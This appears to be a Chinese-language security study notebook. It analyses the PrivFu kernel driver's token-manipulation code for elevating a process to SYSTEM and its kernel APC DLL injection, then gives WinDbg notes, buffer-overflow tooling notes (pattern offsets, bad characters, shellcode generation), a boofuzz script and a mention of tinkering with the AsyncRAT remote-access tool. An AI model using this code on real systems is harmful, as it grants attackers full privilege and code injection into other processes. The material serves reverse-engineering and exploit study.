auto pSid = (PISID)pUserAndGroups[nIntegrityLevelIndex].Sid;
pSid->SubAuthority[0] = 0x4000;
KdPrint((DRIVER_PREFIX "Integrity level of PID %u is modified to System level.\n", HandleToULong(pid)));
看token结构体，核心功能代码基本都是对token进行修改以实现SYSTEM
1: kd> dt _token
nt!_TOKEN
+0x000 TokenSource : _TOKEN_SOURCE
+0x010 TokenId : _LUID
+0x018 AuthenticationId : _LUID
+0x020 ParentTokenId : _LUID
+0x028 ExpirationTime : _LARGE_INTEGER
+0x030 TokenLock : Ptr64 _ERESOURCE
+0x038 ModifiedId : _LUID
+0x040 Privileges : _SEP_TOKEN_PRIVILEGES //g_PrivilegesOffset的值
+0x058 AuditPolicy : _SEP_AUDIT_POLICY
+0x078 SessionId : Uint4B
+0x07c UserAndGroupCount : Uint4B //g_UserAndGroupCountOffset的值
+0x080 RestrictedSidCount : Uint4B
+0x084 VariableLength : Uint4B
+0x088 DynamicCharged : Uint4B
+0x08c DynamicAvailable : Uint4B
+0x090 DefaultOwnerIndex : Uint4B
+0x098 UserAndGroups : Ptr64 _SID_AND_ATTRIBUTES //g_UserAndGroupsOffset的值
+0x0a0 RestrictedSids : Ptr64 _SID_AND_ATTRIBUTES
+0x0a8 PrimaryGroup : Ptr64 Void
+0x0b0 DynamicPart : Ptr64 Uint4B
+0x0b8 DefaultDacl : Ptr64 _ACL
+0x0c0 TokenType : _TOKEN_TYPE
+0x0c4 ImpersonationLevel : _SECURITY_IMPERSONATION_LEVEL
+0x0c8 TokenFlags : Uint4B //g_TokenFlagsOffset的值
+0x0cc TokenInUse : UChar
+0x0d0 IntegrityLevelIndex : Uint4B //g_IntegrityLevelIndexOffset的值
+0x0d4 MandatoryPolicy : Uint4B
+0x0d8 LogonSession : Ptr64 _SEP_LOGON_SESSION_REFERENCES
+0x0e0 OriginatingLogonSession : _LUID
+0x0e8 SidHash : _SID_AND_ATTRIBUTES_HASH
+0x1f8 RestrictedSidHash : _SID_AND_ATTRIBUTES_HASH
+0x308 pSecurityAttributes : Ptr64 _AUTHZBASEP_SECURITY_ATTRIBUTES_INFORMATION
+0x310 Package : Ptr64 Void
+0x318 Capabilities : Ptr64 _SID_AND_ATTRIBUTES
+0x320 CapabilityCount : Uint4B
+0x328 CapabilitiesHash : _SID_AND_ATTRIBUTES_HASH
+0x438 LowboxNumberEntry : Ptr64 _SEP_LOWBOX_NUMBER_ENTRY
+0x440 LowboxHandlesEntry : Ptr64 _SEP_CACHED_HANDLES_ENTRY
+0x448 pClaimAttributes : Ptr64 _AUTHZBASEP_CLAIM_ATTRIBUTES_COLLECTION
+0x450 TrustLevelSid : Ptr64 Void
+0x458 TrustLinkedToken : Ptr64 _TOKEN
+0x460 IntegrityLevelSidValue : Ptr64 Void
+0x468 TokenSidValues : Ptr64 _SEP_SID_VALUES_BLOCK
+0x470 IndexEntry : Ptr64 _SEP_LUID_TO_INDEX_MAP_ENTRY
+0x478 DiagnosticInfo : Ptr64 _SEP_TOKEN_DIAG_TRACK_ENTRY
+0x480 BnoIsolationHandlesEntry : Ptr64 _SEP_CACHED_HANDLES_ENTRY
+0x488 SessionObject : Ptr64 Void
+0x490 VariablePart : Uint8B
查看一下进程实际的值。 首先找到token结构体地址
1: kd> !process 1be0 3
在0x40偏移量处找到了pPrimaryToken + g_PrivilegesOffset的值
套到_SEP_TOKEN_PRIVILEGES结构体更加直观的展示
和代码中定义的值是一样的
#define VALID_PRIVILEGE_MASK 0x0000001FFFFFFFFCULL
在0x7c偏移量找到pPrimaryToken + g_UserAndGroupCountOffset的值

在0x98偏移量找到pPrimaryToken + g_UserAndGroupsOffset的值
代码已经修改了SID的SubAuthority的值。只能显示整个SID
在0xd0偏移量找到pPrimaryToken + g_IntegrityLevelIndexOffset的值

代码分段3
此处循环修改IdentifierAuthority，将sid修改为system用户的
for (auto idx = 0u; idx < nUserAndGroupCount; idx++)
{
// Overwrite token user to "NT AUTHORITY\SYSTEM"
if (pUserAndGroups[idx].Attributes == 0)
{
pSid = (PISID)pUserAndGroups[idx].Sid;
for (auto offset = 1; offset < pSid->SubAuthorityCount; offset++)
pSid->SubAuthority[offset] = 0;
pSid->SubAuthorityCount = 1;
pSid->IdentifierAuthority.Value[0] = 0;
pSid->IdentifierAuthority.Value[1] = 0;
pSid->IdentifierAuthority.Value[2] = 0;
pSid->IdentifierAuthority.Value[3] = 0;
pSid->IdentifierAuthority.Value[4] = 0;
pSid->IdentifierAuthority.Value[5] = 5;
pSid->SubAuthority[0] = 18;
KdPrint((DRIVER_PREFIX "Token user of PID %u is modified to \"NT AUTHORITY\\SYSTEM\".\n", HandleToULong(pid)));
break;
}
}
代码分段4
修改pPrimaryToken + g_TokenFlagsOffset，修改TokenFlags为system的
*(ULONG*)((ULONG_PTR)pPrimaryToken + g_TokenFlagsOffset) = 0x00002800u;
::PsDereferencePrimaryToken(pPrimaryToken);
ObDereferenceObject(pEprocess);
在0xc8偏移量找到pPrimaryToken + g_TokenFlagsOffset的值
这时进程已经是system了。
总体来说，实现原理是先获取进程的eprocess，再根据eprocess获取_token结构体地址，修改_token中的Privileges、TokenFlags、UserAndGroups实现最高权限。
exe的调用逻辑是获取自身进程的信息，调用驱动修改自身进程的权限，然后创建一个当前权限的新程序。
在windbg中可以证实这一点。
稍微改下，提升别的进程权限
GetProcHandle
这个功能是获取进程句柄，由于是内核级别，所以可以获取任意进程句柄。
代码是直接使用ZwOpenProcess打开进程获取句柄了
ntstatus = ::ZwOpenProcess(
&hProcess,
PROCESS_ALL_ACCESS,
&objectAttributes,
&clientId);
if (!NT_SUCCESS(ntstatus))
{
*(HANDLE*)Irp->AssociatedIrp.SystemBuffer = nullptr;
KdPrint((DRIVER_PREFIX "Failed to ZwOpenProcess() (NTSTATUS = 0x%08X).\n", ntstatus));
break;
}
*(HANDLE*)Irp->AssociatedIrp.SystemBuffer = hProcess;
info = sizeof(HANDLE);
KdPrint((DRIVER_PREFIX "ZwOpenProcess() is successful.\n"));
}
Irp->IoStatus.Status = ntstatus;
Irp->IoStatus.Information = info;
IoCompleteRequest(Irp, 0);
return ntstatus;
InjectLibrary
向进程注入dll
从OnDeviceControl函数的整个流程来看，sys驱动的详细工作是在system权限下将dll符加到了当前进程，然后根据驱动调用程序指定的目标进程，将dll复制到了目标进程的内存空间，使用内核模式下的APC将dll加入了APC队列并调用。
//为内核模式的APC分配内存空间
pKapc = (PKAPC)::ExAllocatePoolWithTag(NonPagedPool, sizeof(KAPC), (ULONG)DRIVER_TAG);
if (pKapc == nullptr)
{
KdPrint((DRIVER_PREFIX "Failed to allocate non-paged pool for _KAPC.\n"));
break;
}
else
{
KdPrint((DRIVER_PREFIX "Non-paged pool for _KAPC is allocated at 0x%p.\n", pKapc));
}
//自定义函数GetLdrLoadDllAddress()，从ntdll中获取LdrLoadDll()函数地址，LdrLoadDll用于加载dll
if (LdrLoadDll == nullptr)
LdrLoadDll = (PLdrLoadDll)GetLdrLoadDllAddress();
if (LdrLoadDll == nullptr)
{
KdPrint((DRIVER_PREFIX "Failed to get LdrLoadDll() address.\n"));
break;
}
else
{
KdPrint((DRIVER_PREFIX "LdrLoadDll() is at 0x%p.\n", (PVOID)LdrLoadDll));
}
//通过线程ID查找线程，返回句柄
ntstatus = ::PsLookupThreadByThreadId(ULongToHandle(pContext->ThreadId), &pThread);
if (!NT_SUCCESS(ntstatus))
{
pThread = nullptr;
KdPrint((DRIVER_PREFIX "Failed to lookup nt!_ETHREAD for thread ID %u (NTSTATUS = 0x%08X).\n",
pContext->ThreadId,
ntstatus));
break;
}
else
{
KdPrint((DRIVER_PREFIX "nt!_ETHREAD for thread ID %u is at 0x%p.\n", pContext->ThreadId, pThread));
}
//通过线程句柄获取进程id
clientId.UniqueProcess = ::PsGetThreadProcessId(pThread);
//接着打开进程，获取进程句柄
ntstatus = ::ZwOpenProcess(
&hProcess,
PROCESS_ALL_ACCESS,
&objectAttributes,
&clientId);
if (!NT_SUCCESS(ntstatus))
{
hProcess = nullptr;
KdPrint((DRIVER_PREFIX "Failed to lookup get process handle of thread (NTSTATUS = 0x%08X).\n", ntstatus));
break;
}
else
{
KdPrint((DRIVER_PREFIX "Got process handle for PID %u.\n", HandleToULong(clientId.UniqueProcess)));
}
//在进程中分配内存空间
ntstatus = ::ZwAllocateVirtualMemory(
hProcess,
&pPathBuffer,
NULL,
&nBufferSize,
MEM_COMMIT | MEM_RESERVE,
PAGE_READWRITE);
if (!NT_SUCCESS(ntstatus))
{
pPathBuffer = nullptr;
KdPrint((DRIVER_PREFIX "Failed to allocate buffer in PID %u (NTSTATUS = 0x%08X).\n",
HandleToULong(clientId.UniqueProcess),
ntstatus));
break;
}
else
{
//使用当前线程加载dll，然后将当前线程附加到目标进程中，将dll复制到目标进程所分配的内存空间
KdPrint((DRIVER_PREFIX "%u bytes buffer is allocate at 0x%p in PID %u.\n",
HandleToULong((HANDLE)nBufferSize),
pPathBuffer,
HandleToULong(clientId.UniqueProcess)));
// Write DLL path (_UNICODE_STRING) in the target thread memory.
::KeStackAttachProcess(::PsGetThreadProcess(pThread), &apcState);
auto pLibraryPath = (PUNICODE_STRING)pPathBuffer;
pLibraryPath->MaximumLength = (USHORT)(sizeof(WCHAR) * 256);
pLibraryPath->Buffer = (PWCH)((ULONG_PTR)pPathBuffer + sizeof(UNICODE_STRING));
::memcpy(pLibraryPath->Buffer, &pContext->LibraryPath, sizeof(WCHAR) * 256);
((WCHAR*)pLibraryPath->Buffer)[256] = NULL; // ensure null-terminator for wcslen()
pLibraryPath->Length = (USHORT)(sizeof(WCHAR) * ::wcslen(pLibraryPath->Buffer));
KdPrint((DRIVER_PREFIX "Library to inject: %wZ.\n", pPathBuffer));
::KeUnstackDetachProcess(&apcState);
}
//初始化APC对象
KeInitializeApc(
pKapc,
pThread,
OriginalApcEnvironment,
ApcRoutine,
nullptr,
(PKNORMAL_ROUTINE)LdrLoadDll,
UserMode,
nullptr);
//将进程中的内存空间插入APC
if (KeInsertQueueApc(pKapc, nullptr, pPathBuffer, IO_NO_INCREMENT))
{
KdPrint((DRIVER_PREFIX "APC queue is inserted successfully.\n"));
KeAlertThread(pThread, UserMode);
}
else
{
KdPrint((DRIVER_PREFIX "Failed to insert APC queue.\n"));
}
}
//至此dll已经加载完成，后面是释放空间的代码
if (!NT_SUCCESS(ntstatus) && (pKapc != nullptr))
::ExFreePoolWithTag(pKapc, (ULONG)DRIVER_TAG);
if (hProcess != nullptr)
{
if (!NT_SUCCESS(ntstatus) && (pPathBuffer != nullptr))
::ZwFreeVirtualMemory(hProcess, &pPathBuffer, &nBufferSize, MEM_RELEASE);
::ZwClose(hProcess);
}
if (pThread != nullptr)
ObDereferenceObject(pThread);
Irp->IoStatus.Status = ntstatus;
Irp->IoStatus.Information = info;
IoCompleteRequest(Irp, 0);
return ntstatus;
在C#的调用程序中，要么指定现有进程的tid，要么指定开启一个新进程
if (threadId > 0)
Modules.InjectDll(threadId, options.GetValue("library"));
}
else
{
Modules.InjectDllWithCommand(options.GetValue("command"), options.GetValue("library"));
}
自定义的结构体INJECT_CONTEXT存储传入的参数
public INJECT_CONTEXT(int threadId, string libraryPath)
{
ThreadId = (uint)threadId;
LibraryPath = new byte[512];
if (!string.IsNullOrEmpty(libraryPath))
{
var pathBytes = Encoding.Unicode.GetBytes(libraryPath);
var nCopyLength = (pathBytes.Length < 512) ? pathBytes.Length : 512;
Buffer.BlockCopy(pathBytes, 0, LibraryPath, 0, nCopyLength);
}
}
使用StructureToPtr将结构体转换为指针，调用NtDeviceIoControlFile函数，完成驱动通信
public static bool InjectDll(int threadId, string dllPath)
{
NTSTATUS ntstatus;
IntPtr pInBuffer = Marshal.AllocHGlobal(Marshal.SizeOf(typeof(INJECT_CONTEXT)));
var context = new INJECT_CONTEXT(threadId, Path.GetFullPath(dllPath));
Console.WriteLine("[*] Injection target information:");
Console.WriteLine(" [*] Thread ID : {0}", context.ThreadId);
Console.WriteLine(" [*] Library Path : {0}", Encoding.Unicode.GetString(context.LibraryPath).TrimEnd('\0'));
Marshal.StructureToPtr(context, pInBuffer, true);
Console.WriteLine("[>] Sending a query to {0}.", Globals.SYMLINK_PATH);
do
{
IntPtr hDevice;
using (var objectAttributes = new OBJECT_ATTRIBUTES(
Globals.SYMLINK_PATH,
OBJECT_ATTRIBUTES_FLAGS.OBJ_CASE_INSENSITIVE))
{
ntstatus = NativeMethods.NtCreateFile(
out hDevice,
ACCESS_MASK.GENERIC_READ | ACCESS_MASK.GENERIC_WRITE,
in objectAttributes,
out IO_STATUS_BLOCK _,
IntPtr.Zero,
FILE_ATTRIBUTE_FLAGS.NORMAL,
FILE_SHARE_ACCESS.NONE,
FILE_CREATE_DISPOSITION.OPEN,
FILE_CREATE_OPTIONS.NON_DIRECTORY_FILE,
IntPtr.Zero,
0u);
}
if (ntstatus != Win32Consts.STATUS_SUCCESS)
{
Console.WriteLine("[-] Failed to open {0} (NTSTATUS = 0x{1}).", Globals.SYMLINK_PATH, ntstatus.ToString("X8"));
break;
}
else
{
Console.WriteLine("[+] Got a handle to {0} (Handle = 0x{1})", Globals.SYMLINK_PATH, hDevice.ToString("X"));
}
ntstatus = NativeMethods.NtDeviceIoControlFile(
hDevice,
IntPtr.Zero,
IntPtr.Zero,
IntPtr.Zero,
out IO_STATUS_BLOCK _,
Globals.IOCTL_INJECT_LIBRARY,
pInBuffer,
(uint)Marshal.SizeOf(typeof(INJECT_CONTEXT)),
IntPtr.Zero,
0u);
NativeMethods.NtClose(hDevice);
if (ntstatus != Win32Consts.STATUS_SUCCESS)
Console.WriteLine("[-] Failed to NtDeviceIoControlFile() (NTSTATUS = 0x{0}).", ntstatus.ToString("X8"));
else
Console.WriteLine("[+] DLL injection would be successful.");
} while (false);
Marshal.FreeHGlobal(pInBuffer);
Console.WriteLine("[*] Done.");
return (ntstatus == Win32Consts.STATUS_SUCCESS);
为什么在驱动中定义的IOCTL编号和驱动调用的不一样？
sys文件中的
#define IOCTL_INJECT_LIBRARY CTL_CODE(0x8000, 0x0600, METHOD_BUFFERED, FILE_ANY_ACCESS)
c#调用的
public static uint IOCTL_INJECT_LIBRARY { get; } = 0x80001800u;
这是因为在c中使用了CTL_CODE宏来定义IOCTL。
IOCTL是一个32位的值，由两部分组成，分操作代码和参数。
c里面使用了宏CTL_CODE来分别指定不同的部分，而c#没有宏可以使用，所以指定指定单个值0x80001800u
#define CTL_CODE( DeviceType, Function, Method, Access ) ( \
((DeviceType) << 16) | ((Access) << 14) | ((Function) << 2) | (Method) \
)
ModHide
ProcHide
ProcProtect
QueryModule
StealToken
Windbg
https://learn.microsoft.com/zh-cn/windows-hardware/drivers/debuggercmds/commands
https://learn.microsoft.com/zh-cn/windows-hardware/drivers/debugger/standard-debugging-techniques
常用命令
- .process 查看进程信息
.process 0 0 cmd.exe 查找进程
- dt 查看结构体
dt xxxx 查看当前结构体
dt xxx!xxx 查看指定模块的结构体
dt _peb @$peb 将值应用到结构体
- lm 查看模块
0:009> lm
start end module name
00007ff6`f33c0000 00007ff6`f34da000 Notepad C (no symbols)
00007ffb`9a5c0000 00007ffb`9a77c000 DUI70 (deferred)
00007ffb`b9350000 00007ffb`b9933000 Microsoft_UI_Xaml (deferred)
00007ffb`c0b40000 00007ffb`c0e78000 riched20 (deferred)
00007ffb`c3550000 00007ffb`c3578000 edputil (deferred)
- ~ 查看线程
0:009> ~
0 Id: f90.400c cSuspend: 1 Teb: 00000041`0f6b4000 Unfrozen
1 Id: f90.15ec Suspend: 1 Teb: 00000041`0f6b6000 Unfrozen
2 Id: f90.4a18 Suspend: 1 Teb: 00000041`0f6b8000 Unfrozen
3 Id: f90.3ea4 Suspend: 1 Teb: 00000041`0f6ba000 Unfrozen
4 Id: f90.3840 Suspend: 1 Teb: 00000041`0f6bc000 Unfrozen
5 Id: f90.1a50 Suspend: 1 Teb: 00000041`0f6be000 Unfrozen
6 Id: f90.4514 Suspend: 1 Teb: 00000041`0f6c0000 Unfrozen
7 Id: f90.3d30 Suspend: 1 Teb: 00000041`0f6c2000 Unfrozen
- k 查看栈
0:009> k
# Child-SP RetAddr Call Site
00 00000041`100fc558 00007ffc`02a55370 ntdll!NtCreateFile
01 00000041`100fc560 00007ffc`02a54cdc KERNELBASE!CreateFileInternal+0x590
02 00000041`100fc6d0 00007ffc`02a5488c KERNELBASE!CreateFileW+0x7c
03 00000041`100fc750 00007ffc`02a563c0 KERNELBASE!BasepLoadLibraryAsDataFileInternal+0x4dc
04 00000041`100fc980 00007ffc`04707ddc KERNELBASE!LoadLibraryExW+0xe0
05 00000041`100fc9f0 00007ffc`04707bea SHELL32!GetShellStyleHInstance+0xcc
06 00000041`100fcd20 00007ffc`04707ba0 SHELL32!UpdateStyle+0x1e
07 00000041`100fcd60 00007ffc`04707a93 SHELL32!DUI_ShellStyleSheet_InitProcess+0x94
08 00000041`100fcda0 00007ffc`0474c2d7 SHELL32!InitializeDirectUI+0x4b
- u 查看当前汇编代码
0:009> u
ntdll!NtCreateFile+0x18:
00007ffc`0528fe18 0f1f840000000000 nop dword ptr [rax+rax]
ntdll!NtQueryEvent:
00007ffc`0528fe20 4c8bd1 mov r10,rcx
00007ffc`0528fe23 b856000000 mov eax,56h
00007ffc`0528fe28 f604250803fe7f01 test byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffc`0528fe30 7503 jne ntdll!NtQueryEvent+0x15 (00007ffc`0528fe35)
00007ffc`0528fe32 0f05 syscall
00007ffc`0528fe34 c3 ret
00007ffc`0528fe35 cd2e int 2Eh
- r 查看寄存器
0:009> r
rax=0000000000000005 rbx=0000000000000000 rcx=00000041100fc5e0
rdx=0000000080100080 rsi=0000000000000000 rdi=0000000000000000
rip=00007ffc0528fe00 rsp=00000041100fc558 rbp=00000041100fc660
r8=00000041100fc640 r9=00000041100fc5e8 r10=ce709ee7125b9070
r11=00000041100fc540 r12=0000000000000001 r13=0000000000000000
r14=0000000080100080 r15=0000000000000000
iopl=0 nv up ei ng nz na pe nc
cs=0033 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00000282
ntdll!NtCreateFile:
00007ffc`0528fe00 4c8bd1 mov r10,rcx
0:009> r al
al=5
0:009> r eax
eax=5
0:009> r rax
rax=0000000000000005
- d 查看内存
0:009> d
00007ffc`0528fe00 4c 8b d1 b8 55 00 00 00-f6 04 25 08 03 fe 7f 01 L...U.....%.....
00007ffc`0528fe10 75 03 0f 05 c3 cd 2e c3-0f 1f 84 00 00 00 00 00 u...............
00007ffc`0528fe20 4c 8b d1 b8 56 00 00 00-f6 04 25 08 03 fe 7f 01 L...V.....%.....
00007ffc`0528fe30 75 03 0f 05 c3 cd 2e c3-0f 1f 84 00 00 00 00 00 u...............
00007ffc`0528fe40 4c 8b d1 b8 57 00 00 00-f6 04 25 08 03 fe 7f 01 L...W.....%.....
00007ffc`0528fe50 75 03 0f 05 c3 cd 2e c3-0f 1f 84 00 00 00 00 00 u...............
00007ffc`0528fe60 4c 8b d1 b8 58 00 00 00-f6 04 25 08 03 fe 7f 01 L...X.....%.....
00007ffc`0528fe70 75 03 0f 05 c3 cd 2e c3-0f 1f 84 00 00 00 00 00 u...............
- x 匹配符号，可用来查找函数地址
0:009> x ntdll!createf*
Breakpoint 0 hit
ntdll!NtCreateFile:
00007ffc`0528fe00 4c8bd1 mov r10,rcx
- bp、bu、bm 设置断点 根据地址断点 1.根据静态找到偏移量 2.查看当前模块虚拟地址+偏移量断点
0:002> lm
start end module name
00007ff6`07c20000 00007ff6`07c36000 a T (no symbols)
00007ffb`ff880000 00007ffb`ff917000 apphelp (deferred)
00007ffc`02a30000 00007ffc`02dd5000 KERNELBASE (deferred)
00007ffc`02fc0000 00007ffc`03084000 KERNEL32 (pdb symbols) E:\Windows Kits\10\Debuggers\x64\sym\kernel32.pdb\6F7660385E7D8D33ED9B5A39B03822F01\kernel32.pdb
00007ffc`04f60000 00007ffc`05007000 msvcrt (deferred)
00007ffc`051f0000 00007ffc`05407000 ntdll (pdb symbols) E:\Windows Kits\10\Debuggers\x64\sym\ntdll.pdb\58A282C24AEE7E03A8CF8CB0A782CE0C1\ntdll.pdb
0:002> u 00007ff6`07c214c7
a+0x14c7:
00007ff6`07c214c7 e8c7ffffff call a+0x1493 (00007ff6`07c21493)
00007ff6`07c214cc 4889ca mov rdx,rcx
00007ff6`07c214cf 8a02 mov al,byte ptr [rdx]
00007ff6`07c214d1 4883c202 add rdx,2
00007ff6`07c214d5 84c0 test al,al
00007ff6`07c214d7 7407 je a+0x14e0 (00007ff6`07c214e0)
00007ff6`07c214d9 83e00f and eax,0Fh
00007ff6`07c214dc 01c6 add esi,eax
0:002> bp 00007ff6`07c214c7
- 批量断点
0:000> bm ntdll!ZwTer*
2: 00007ffc`05292d30 @!"ntdll!ZwTerminateJobObject"
3: 00007ffc`05292d10 @!"ntdll!ZwTerminateEnclave"
4: 00007ffc`0528fdc0 @!"ntdll!ZwTerminateThread"
5: 00007ffc`0528f8e0 @!"ntdll!ZwTerminateProcess"
0:000> bl
1 e Disable Clear 00007ff6`07c214cc 0001 (0001) 0:**** a+0x14cc
2 e Disable Clear 00007ffc`05292d30 0001 (0001) 0:**** ntdll!NtTerminateJobObject
3 e Disable Clear 00007ffc`05292d10 0001 (0001) 0:**** ntdll!NtTerminateEnclave
4 e Disable Clear 00007ffc`0528fdc0 0001 (0001) 0:**** ntdll!NtTerminateThread
5 e Disable Clear 00007ffc`0528f8e0 0001 (0001) 0:**** ntdll!NtTerminateProcess
- 搜索内存空间
0:000> s -a 0 L?0x00007ff6ffffffff "aaaaaaaa"
000000ad`83dffc4c 61 61 61 61 61 61 61 61-00 00 00 00 00 00 00 00 aaaaaaaa........
- 数据类型转换
0:000> .formats 6161616161616262
Evaluate expression:
Hex: 61616161`61616262
Decimal: 7016996765293437538
Octal: 0605413026054130261142
Binary: 01100001 01100001 01100001 01100001 01100001 01100001 01100010 01100010
Chars: aaaaaabb
Time: Sat Dec 24 08:48:49.343 23836 (UTC + 8:00)
Float: low 2.5985e+020 high 2.59846e+020
Double: 1.22176e+161
- 内存状态
0:000> !address
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...
BaseAddress EndAddress+1 RegionSize Type State Protect Usage
--------------------------------------------------------------------------------------------------------------------------
+ 0`00000000 0`7ffe0000 0`7ffe0000 MEM_FREE Free
+ 0`7ffe0000 0`7ffe1000 0`00001000 MEM_PRIVATE MEM_COMMIT Other [User Shared Data]
+ 0`7ffe1000 0`7ffe6000 0`00005000 MEM_FREE Free
+ 0`7ffe6000 0`7ffe7000 0`00001000 MEM_PRIVATE MEM_COMMIT <unknown> [..........O...H.]
+ 0`7ffe7000 ad`83a00000 ad`03a19000 MEM_FREE Free
+ ad`83a00000 ad`83af0000 0`000f0000 MEM_PRIVATE MEM_RESERVE <unknown>
ad`83af0000 ad`83af1000 0`00001000 MEM_PRIVATE MEM_COMMIT PEB [3e3c]
ad`83af1000 ad`83af3000 0`00002000 MEM_PRIVATE MEM_COMMIT TEB [~0; 3e3c.517c]
ad`83af3000 ad`83af5000 0`00002000 MEM_PRIVATE MEM_COMMIT TEB [~1; 3e3c.211c]
ad`83af5000 ad`83c00000 0`0010b000 MEM_PRIVATE MEM_RESERVE <unknown>
+ ad`83c00000 ad`83dfa000 0`001fa000 MEM_PRIVATE MEM_RESERVE Stack [~0; 3e3c.517c]
ad`83dfa000 ad`83dfd000 0`00003000 MEM_PRIVATE MEM_COMMIT PAGE_READWRITE | PAGE_GUARD Stack [~0; 3e3c.517c]
ad`83dfd000 ad`83e00000 0`00003000 MEM_PRIVATE MEM_COMMIT Stack [~0; 3e3c.517c]
+ ad`83e00000 ad`83ffc000 0`001fc000 MEM_PRIVATE MEM_RESERVE Stack [~1; 3e3c.211c]
ad`83ffc000 ad`83fff000 0`00003000 MEM_PRIVATE MEM_COMMIT PAGE_READWRITE | PAGE_GUARD Stack [~1; 3e3c.211c]
ad`83fff000 ad`84000000 0`00001000 MEM_PRIVATE MEM_COMMIT Stack [~1; 3e3c.211c]
debug kernel
\\.\pipe\pa
bcdedit /debug on
bcdedit /dbgsettings serial debugport:2 baudrate:115200
bcdedit /dbgsettings NET HOSTIP:1.1.1.1 PORT:50000
bcdedit /dbgsettings serial debugport:2 baudrate:115200
书籍工具
Reverse Engineering for Beginners
Windows 令牌相关学习
https://github.com/daem0nc0re/PrivFu/
工具
在线源码汇编互转工具
https://godbolt.org/
PE Tools
看pe的
file
file 1.exe
看文件格式类型的，根据文件头的文件幻数来检查。
什么是幻数？幻数就是不同格式文件的指纹，例如MZ是PE文件的指纹，16进制幻数是4D 5A
ldd
ldd 1.exe
看动态链接程序需要哪些链接库的
dumpbin
vscode自带的程序
dumpbin.exe /imports 1.exe
dumpbin.exe /exports 1.exe
dumpbin /dependents 1.exe 这个跟ldd一样
string
查看字符串
speakeasy
模拟shellcode运行，可用于查找CS profile的地址、请求信息等 https://github.com/mandiant/speakeasy
AsyncRAT-C-Sharp
一款开源远控，可以二开一下改着自己玩---待办 https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp
参考资料
Inter架构手册.pdf
https://www.intel.cn/content/www/cn/zh/developer/articles/technical/intel-sdm.html
命令
pattern
msf-pattern_create //生成指定长度的数据
Usage: msf-pattern_create [options]
Example: msf-pattern_create -l 50 -s ABC,def,123
Ad1Ad2Ad3Ae1Ae2Ae3Af1Af2Af3Bd1Bd2Bd3Be1Be2Be3Bf1Bf
Options:
-l, --length <length> The length of the pattern
-s, --sets <ABC,def,123> Custom Pattern Sets
-h, --help Show this message
- 计算偏移量
这是根据msf自己生成的唯一字符串来定位的,
-q给字符串的16进制，工具会自动计算出EIP的偏移量
└─# msf-pattern_offset -q 00696CA9
[*] Exact match at offset 146
- 所有字符
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
nasm
- 汇编指令转16进制
使用MSF的自带工具
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000 FFE4 jmp esp
nasm > call esp
00000000 FFD4 call esp
- 缓冲区溢出shellcode生成
generate -b "\x00\x0a\x0d"
Ropper
ROP链寻找工具
https://github.com/sashs/Ropper
工具
Ghidra、IDA
boofuzz使用
官方指南 https://boofuzz.readthedocs.io/
注意：脚本名称不能是boofuzz.py，否则会有异常
安装boofuzz
python3 -m pip install boofuzz
一个完整的样例脚本如下
#!/usr/bin/python
from boofuzz import *
host = '192.168.14.139'
port = 9999
def main():
ses = Session(target = Target(connection = SocketConnection(host, port, proto='tcp')), sleep_time = 3, web_address = '0.0.0.0')
s_initialize("TEST") # 初始化请求
s_string("TRUN", fuzzable=False) # 发送字符串到栈 fuzzable=False 字符串不变
s_delim(" ", fuzzable=False) # 发送分隔符到栈 fuzzable=False 分隔符不变
s_string("FUZZ") # 发送字符串到栈 这段内容是fuzz部分
ses.connect(s_get("TEST")) # 创建一个连接 接收回调
ses.fuzz() # 开始fuzz
if __name__ == "__main__":
main()
x64dbg安装mona插件
x32和x64是分别安装的
https://github.com/x64dbg/x64dbgpy/releases/download/3177a3ef/python-2.7.11.msi
https://github.com/x64dbg/x64dbgpy/releases/download/3177a3ef/python-2.7.11.amd64.msi
1、安装x64dbgpy插件支持python
下载https://github.com/x64dbg/x64dbgpy/releases/download/8c0538a/x64dbgpy_8c0538a.zip
解压覆盖到安装目录
2、安装mona
下载地址
https://github.com/x64dbg/mona
mona.py复制到plugins/x64dbgpy中
下载
https://github.com/x64dbg/x64dbgpylib
复制到plugins/x64dbgpy中
clean_mona.py复制到x64dbgpy/x64dbgpy/autorun中
speakeasy
模拟shellcode
root@1:/home/popo# speakeasy -t payload.bin -r -a x64
* exec: shellcode
0x10ef: 'kernel32.LoadLibraryA("wininet")' -> 0x7bc00000
0x1107: 'wininet.InternetOpenA(0x0, 0x0, 0x0, 0x0, 0x0)' -> 0x20
